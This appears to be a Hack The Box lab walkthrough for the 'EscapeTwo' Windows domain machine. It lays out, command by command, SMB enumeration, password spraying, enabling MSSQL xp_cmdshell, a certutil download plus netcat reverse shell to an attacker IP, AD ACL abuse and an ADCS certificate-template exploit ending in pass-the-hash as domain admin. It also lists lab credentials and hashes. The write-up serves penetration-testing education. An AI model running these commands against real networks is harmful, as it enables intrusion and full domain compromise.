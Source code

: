 # EscapeTwo HTB Walkthrough

[![Hack The Box](https://img.shields.io/badge/HackTheBox-EscapeTwo-green?logo=hackthebox)](https://app.hackthebox.com/machines/642)
[![Difficulty: Easy](https://img.shields.io/badge/Difficulty-Easy-green)](https://github.com/subhash00/HTB_Labs/)
[![Platform: Windows](https://img.shields.io/badge/Platform-Windows-blue)](https://github.com/subhash00/HTB_Labs/)
[![Topic: Active Directory](https://img.shields.io/badge/Topic-Active%20Directory-yellowgreen)](https://en.wikipedia.org/wiki/Active_Directory)

---

## Overview

EscapeTwo is an easy Windows domain machine showcasing a full AD domain takeover:
- Starting with user credentials for domain enumeration and SMB share access,
- Fixing a corrupted Excel file header to extract hidden credentials,
- Using extracted credentials for MSSQL authentication and command execution (xp_cmdshell),
- Leveraging reverse shell with Netcat and certutil for lateral movement,
- Performing password spraying on WinRM and SMB for further access,
- Enumerating and abusing AD ACLs to control certificate services user,
- Exploiting misconfigured Active Directory Certificate Services (ADCS) to impersonate domain admin,
- Finally, gaining domain admin access and retrieving the root flag.

---

## Table of Contents

- [1. Initial Enumeration](#1-initial-enumeration)
- [2. SMB Share Enumeration and File Extraction](#2-smb-share-enumeration-and-file-extraction)
- [3. Repairing Corrupted Excel File](#3-repairing-corrupted-excel-file)
- [4. Password Spraying and MSSQL Access](#4-password-spraying-and-mssql-access)
- [5. Enabling xp_cmdshell and Reverse Shell](#5-enabling-xp_cmdshell-and-reverse-shell)
- [6. Lateral Movement Using WinRM](#6-lateral-movement-using-winrm)
- [7. Active Directory Enumeration with BloodHound](#7-active-directory-enumeration-with-bloodhound)
- [8. ACL Abuse and ADCS Enumeration](#8-acl-abuse-and-adcs-enumeration)
- [9. Exploiting Vulnerable Certificate Template](#9-exploiting-vulnerable-certificate-template)
- [10. Domain Admin Access and Root Flag](#10-domain-admin-access-and-root-flag)
- [11. Stepwise PoC](#11-stepwise-poc)

---

## 1. Initial Enumeration
```
ports=$(nmap -p- --min-rate=1000 -T4 10.129.232.128 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
nmap -p$ports -sC -sV 10.129.232.128
```

- Scans all TCP ports, extracts open ports, then runs version detection and default NSE scripts on those ports.
- Open services included SMB(445), LDAP(389), Kerberos(88), and MSSQL(1433).
 ```
 echo "10.129.232.128 sequel.htb dc01.sequel.htb" | sudo tee -a /etc/hosts`
 ```
- Adds IP to hosts for domain resolution.

---

## 2. SMB Share Enumeration and File Extraction
```
netexec smb 10.129.232.128 -u rose -p 'KxEPkKe6R8su' --shares
impacket-smbclient sequel.htb/rose:'KxEPkKe6R8su'@10.129.232.128
use Accounting Department
ls
get accounts.xlsx`
```
- Lists SMB shares accessible with user `rose`.
- Downloads `accounts.xlsx` – a corrupted Excel file suspected to contain secrets.

---

## 3. Repairing Corrupted Excel File
```
file accounts.xlsx
7z x accounts.xlsx
hexedit accounts.xlsx
xxd accounts.xlsx
```
- Determine file type: `.xlsx` files are ZIP archives.
- Extraction fails due to corrupted header bytes `50 48 04 03`.
- Manual hex edit to fix header to standard ZIP magic bytes `50 4B 03 04`.
- File opens successfully, revealing credentials inside.

---

## 4. Password Spraying and MSSQL Access

`netexec smb 10.129.232.128 -u users.txt -p pass.txt`

- Password spray with user and password lists to find valid combinations (finds valid user `oscar`).

```
netexec mssql 10.129.232.128 -u sa -p 'MSSQLP@ssw0rd!' --local-auth
impacket-mssqlclient sequel.htb/'sa:MSSQLP@ssw0rd!'@10.129.232.128
```
- Connect to MSSQL with high-privilege `sa` account using found credentials.

Enable command execution:
```
EXEC sp_configure 'show advanced options', 1; RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;
EXEC xp_cmdshell 'whoami';
```
- Enables `xp_cmdshell` procedure to run OS commands, reveals `sequel\sql_svc` user.

---

## 5. Enabling xp_cmdshell and Reverse Shell
```
nc -lnvp 4455
python3 -m http.server 4000
```
- Start a Netcat listener and simple HTTP server locally.
- Start a Netcat listener and simple HTTP server locally.

```
EXEC xp_cmdshell 'certutil -urlcache -split -f http://10.10.14.96:4000/nc64.exe C:\Users\sql_svc\Desktop\nc64.exe';
EXEC xp_cmdshell 'C:\Users\sql_svc\Desktop\nc64.exe -e cmd.exe 10.10.14.96 4455';
```
- Downloads Netcat to victim using `certutil`.
- Executes Netcat to connect back and spawn a reverse shell on attacker machine.

---

## 6. Lateral Movement Using WinRM
```
net user
nxc winrm sequel.htb -u Users.txt -p 'WqSZAF6CysDQbGb3'
evil-winrm -i 10.129.232.128 -u ryan -p 'WqSZAF6CysDQbGb3'
```
- Enumerate users on Windows.
- Spray Password on WinRM port 5985 to find valid login (`ryan`).
- Use Evil-WinRM to spawn remote PowerShell session as `ryan`.
- Retrieve user flag for confirmation.

---

## 7. Active Directory Enumeration with BloodHound

`bloodhound-python -u ryan -p 'WqSZAF6CysDQbGb3' -d sequel.htb -ns 10.129.232.128 -c all --zip`

- Perform comprehensive enumeration of AD structure, permissions, and sessions.
- Identify privilege escalation paths involving `ca_svc` account.

---

## 8. ACL Abuse and ADCS Enumeration
```
python owneredit.py -action write -new-owner 'ryan' -target 'ca_svc' sequel.htb/ryan:'WqSZAF6CysDQbGb3'
python dacledit.py -action 'write' -rights 'FullControl' -principal 'ryan' -target 'ca_svc' sequel.htb/ryan:'WqSZAF6CysDQbGb3'
```
- Change ownership and grant `FullControl` to `ryan` over `ca_svc`.
- Also we can reset `ca_svc` password via PowerView or similar tools.

---

## 9. Exploiting Vulnerable Certificate Template
 ```
 certipy shadow -account ca_svc -u ryan@sequel.htb -p 'WqSZAF6CysDQbGb3' auto 
 certipy find -u 'ca_svc@sequel.htb' -hashes :3b181b914e7a9d5508ea1e20bc2b7fce -stdout -text
 certipy template -u 'ca_svc@sequel.htb' -hashes :3b181b914e7a9d5508ea1e20bc2b7fce -template 'DunderMifflinAuthentication' -save-old
 certipy req -u 'ca_svc@sequel.htb' -hashes :3b181b914e7a9d5508ea1e20bc2b7fce -ca 'sequel-DC01-CA' -template 'DunderMifflinAuthentication' -upn     
 administrator@sequel.htb -dns dc01.sequel.htb	
 certipy auth -pfx administrator_dc01.pfx
```
- Enumerate CA templates and spot misconfigurations.
- Modify template to remove approval requirement and enable client authentication.
- Request a certificate impersonating administrator.
- Authenticate with the certificate and extract domain admin NTLM hash.

---

## 10. Domain Admin Access and Root Flag
```
evil-winrm -i 10.128.124.12 -u Administrator -H 7a8d4e04986afa8ed4060f75e5a0b3ff
whoami
type C:\Users\Administrator\Desktop\root.txt
```
- Use domain admin NTLM hash for pass-the-hash WinRM login.
- Gain full domain admin shell and capture root flag.

---

## 11. Stepwise PoC

<details>
<summary>💻<strong>(click to expand)</strong> </summary>
<img width="1567" height="841" alt="39" src="https://github.com/user-attachments/assets/cf78e34a-3d0b-4eba-b639-657c3207a13f" />
<img width="1163" height="746" alt="38" src="https://github.com/user-attachments/assets/da0d5c09-c9f9-4460-8e48-01f1d860b11b" />
<img width="1090" height="94" alt="37" src="https://github.com/user-attachments/assets/fa326e43-0f87-4fae-80d0-1ba35e1adc18" />
<img width="1827" height="468" alt="36" src="https://github.com/user-attachments/assets/ae250058-a54a-45de-bcdf-3b4808ff4148" />
<img width="1224" height="622" alt="35" src="https://github.com/user-attachments/assets/6264ec1c-f2dc-4f0e-af5e-c2da8b4e02a1" />
<img width="1908" height="147" alt="34" src="https://github.com/user-attachments/assets/29b6aaa8-2abd-4668-b769-e8a1fa85d4c4" />
<img width="1835" height="726" alt="33" src="https://github.com/user-attachments/assets/6e94d1d3-a9e7-4f54-9a8f-6cd5b31eb144" />
<img width="838" height="356" alt="32" src="https://github.com/user-attachments/assets/e0670fcf-38fa-414d-95f5-0018013d7ad2" />
<img width="1213" height="843" alt="31" src="https://github.com/user-attachments/assets/57a3e493-1569-4cde-9b44-a19696eda0d8" />
<img width="1200" height="816" alt="30" src="https://github.com/user-attachments/assets/11129b40-7bd6-4b84-ab19-d9aad51dbc28" />
<img width="1107" height="662" alt="29" src="https://github.com/user-attachments/assets/a8e0e96f-bef7-4918-8afb-5eff7c8844ed" />
<img width="1381" height="341" alt="28" src="https://github.com/user-attachments/assets/56c42ec9-919b-4ae6-80ee-9429d9ba82ac" />
<img width="1399" height="597" alt="27" src="https://github.com/user-attachments/assets/796b65f9-7d01-4e5c-bd7f-3f6b066c7431" />
<img width="1410" height="811" alt="26" src="https://github.com/user-attachments/assets/5151efae-e489-4f7a-bb5c-f86837eb53c7" />
<img width="749" height="170" alt="25" src="https://github.com/user-attachments/assets/666da45b-b6d6-418a-a0c0-924a0fd2092b" />
<img width="843" height="136" alt="24" src="https://github.com/user-attachments/assets/d23abef6-7ce1-462e-ac88-f5368e5caf20" />
<img width="1405" height="485" alt="23" src="https://github.com/user-attachments/assets/0564f09f-007f-4a6b-b692-eed71288a235" />
<img width="1698" height="772" alt="22" src="https://github.com/user-attachments/assets/1c69f4a6-56ea-4708-9614-17b8b70abfcf" />
<img width="867" height="501" alt="21" src="https://github.com/user-attachments/assets/ada0b434-acf4-468a-8907-fed186ba56e1" />
<img width="920" height="718" alt="20" src="https://github.com/user-attachments/assets/0640dfdf-667d-443e-9334-8783ab7deb1b" />
<img width="756" height="707" alt="19" src="https://github.com/user-attachments/assets/6726c592-3a77-4f8f-adc7-75a3edbacfba" />
<img width="948" height="380" alt="18" src="https://github.com/user-attachments/assets/6763d4a1-5373-4952-a383-278ae40c5662" />
<img width="1055" height="471" alt="17" src="https://github.com/user-attachments/assets/6b46c9bd-0378-4ece-8dd7-60dab7bc2fe8" />
<img width="1003" height="487" alt="16" src="https://github.com/user-attachments/assets/ce2f4474-46e9-4f5a-b943-871f87cd5c95" />
<img width="976" height="730" alt="15" src="https://github.com/user-attachments/assets/92426af9-b80f-4dae-828d-6f856206a30c" />
<img width="1593" height="848" alt="14" src="https://github.com/user-attachments/assets/5a0817fc-c347-40eb-8698-6166d9567721" />
<img width="1026" height="281" alt="13" src="https://github.com/user-attachments/assets/87cad8f2-7a3f-4e75-b1da-e47eb4a82156" />
<img width="1007" height="304" alt="12" src="https://github.com/user-attachments/assets/5518be24-e84c-44f2-872a-35ba15410648" />
<img width="1010" height="212" alt="11" src="https://github.com/user-attachments/assets/c3a935f3-c6c9-4309-aec8-d80d04944e44" />
<img width="1593" height="711" alt="10" src="https://github.com/user-attachments/assets/8cc34080-7466-4aba-b90e-77dbf06a296b" />
<img width="1015" height="356" alt="9" src="https://github.com/user-attachments/assets/3c88a4f3-850c-4a52-aebc-0469eaa36d2b" />
<img width="1010" height="233" alt="8" src="https://github.com/user-attachments/assets/83a27c6d-c699-4552-bbb7-ae764d6d7025" />
<img width="1591" height="663" alt="7" src="https://github.com/user-attachments/assets/8140794e-8d30-4c0c-a6d2-c1dfa0eb2a80" />
<img width="1829" height="669" alt="6" src="https://github.com/user-attachments/assets/fc9acdee-23bd-40b6-9252-49e88eda588d" />
<img width="1227" height="691" alt="5" src="https://github.com/user-attachments/assets/52dca908-e45d-4e9c-acea-5857fdfd71cc" />
<img width="1016" height="287" alt="4" src="https://github.com/user-attachments/assets/526a5f64-d973-4f41-bfcb-becbeaaf0bf0" />
<img width="1008" height="452" alt="3" src="https://github.com/user-attachments/assets/fef3eb82-7daf-4cff-a6c7-6a6291d7a28b" />
<img width="1011" height="509" alt="2" src="https://github.com/user-attachments/assets/60caf3be-d8a5-4a40-ab17-9083b37c7c9a" />
<img width="1021" height="478" alt="1" src="https://github.com/user-attachments/assets/05301ce8-6ced-4939-85b8-36b4e99999a1" />

</details>

---

## Tools & References

- **NetExec (nxc):** Network service exploitation and spraying
- **Impacket:** SMB and MSSQL clients
- **BloodHound:** AD permission visualizer and enumeration
- **Certipy:** ADCS enumeration and exploitation
- **Evil-WinRM:** Remote PowerShell shell over WinRM
- **Standard Linux tools:** `nmap`, `netcat`, `file`, `7z`, `hexedit`

---

## Final Notes

- Master the flow from enumeration → foothold → lateral movement → escalation.
- ADCS misconfiguration remains a powerful vector in domain takeovers.
- Proper ACL management and template hardening are critical defenses.

---





